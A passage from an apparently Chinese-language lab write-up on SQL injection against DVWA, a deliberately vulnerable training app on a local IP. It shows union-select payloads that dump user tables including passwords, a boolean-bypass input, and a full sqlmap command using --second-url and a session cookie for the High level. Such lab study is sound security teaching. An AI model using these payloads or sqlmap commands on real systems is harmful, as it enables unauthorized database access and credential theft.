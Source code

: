 ![image-20211101201944637](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031954606.png)

###### 获得字段中的数据

- guestbook表：

`1' union select group_concat(comment_id,comment),group_concat(name) from guestbook #`

![image-20211101202141417](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031954772.png)

- locations表：

`1' union select group_concat(name,latitude),group_concat(longtitude) from locations #`

![image-20211102215438222](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955341.png)

- users表：

`1' union select group_concat(user_id,first_name,last_name,user),group_concat(password,avatar,last_login,failed_login) from users #`

![image-20211101202210120](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955883.png)



### 二、附加项

#### 【High-sqlmap】

##### ①分析

High级别将提交命令和结果显示分为2个窗口，分别抓包：

点击click here to change your ID，GET提交查询命令页面：

![image-20211103100823375](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955888.png)

点击submit，执行POST，将id改为`1' or '1'='1'#`：

![image-20211103100812849](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955309.png)

之后会再GET原页面，显示查询结果：

![image-20211103101211028](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955025.png)

这样分成两个页面的作用是防止了常规的sqlmap扫描注入测试，因为sqlmap在注入过程中，无法在查询提交页面上获取查询的结果，没有了反馈，也就没办法进一步注入。

但是sqlmap针对这种情况有特殊的指令：**`--second-url="xxxurl"`**，该命令用于设置二阶响应的结果显示页面的url。在sqlmap用户手册（https://sqlmap.campfire.ga/usage/techniques）中有作介绍。

![image-20211103103744268](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955743.png)

这里的结果显示页面的url地址，即原页面：http://192.168.112.140/dvwa/vulnerabilities/sqli/。

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/session-input.php#" --data="id=1&Submit=Submit" --second-url="http://192.168.112.140/dvwa/vulnerabilities/sqli/" --cookie="security=high; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch`
